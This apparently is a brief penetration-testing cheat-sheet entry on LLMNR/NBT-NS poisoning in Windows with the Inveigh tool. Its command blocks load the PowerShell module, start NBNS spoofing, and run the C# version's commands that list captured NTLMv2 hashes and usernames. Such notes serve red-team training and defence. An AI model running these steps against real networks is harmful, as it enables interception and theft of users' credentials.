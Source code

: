 # LLMNR/NBT-NS Poisoning -Windows

in windows we will be use tool call **`Inveigh`** which this tool was written by c# and PowerShell

[https://github.com/Kevin-Robertson/Inveigh.git](https://github.com/Kevin-Robertson/Inveigh.git)

```bash
# to run module 
Import-Module .\\Inveigh.ps1

# **LLMNR/NBT-NS spoofing
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y**
```

**Inveigh C# (InveighZero)**

you can use it because more updated

```bash
.\\Inveigh.exe

ESC
GET NTLMV2UNIQUE
GET NTLMV2USERNAMES
```
